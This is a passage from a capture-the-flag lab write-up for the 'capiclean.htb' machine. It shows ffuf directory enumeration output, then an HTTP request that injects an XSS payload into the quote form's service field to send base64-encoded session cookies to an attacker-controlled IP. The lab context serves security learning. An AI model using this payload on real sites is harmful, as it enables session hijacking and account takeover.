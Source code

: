 ```shell

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://capiclean.htb/F
 :: Wordlist         : F: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 16697, Words: 4654, Lines: 349, Duration: 283ms]
about                   [Status: 200, Size: 5267, Words: 1036, Lines: 130, Duration: 257ms]
dashboard               [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 271ms]
login                   [Status: 200, Size: 2106, Words: 297, Lines: 88, Duration: 258ms]
logout                  [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 255ms]
quote                   [Status: 200, Size: 2237, Words: 98, Lines: 90, Duration: 254ms]
services                [Status: 200, Size: 8592, Words: 2325, Lines: 193, Duration: 250ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 1252ms]
team                    [Status: 200, Size: 8109, Words: 2068, Lines: 183, Duration: 251ms]
:: Progress: [4614/4614] :: Job [1/1] :: 33 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```
The target Host opens some hosts: 80, 22,... Scan dir: dashboard, quote,... Go to quote.

## Exploit User
```shell

POST /sendMessage HTTP/1.1

Host: capiclean.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 118

Origin: http://capiclean.htb

Connection: close

Referer: http://capiclean.htb/quote

Upgrade-Insecure-Requests: 1
service=<img++src%3dx+onerror%3d'window.location%3d`http%3a//10.10.14.18%3a9999/${btoa(document.cookie)}`'/>&email=toa
```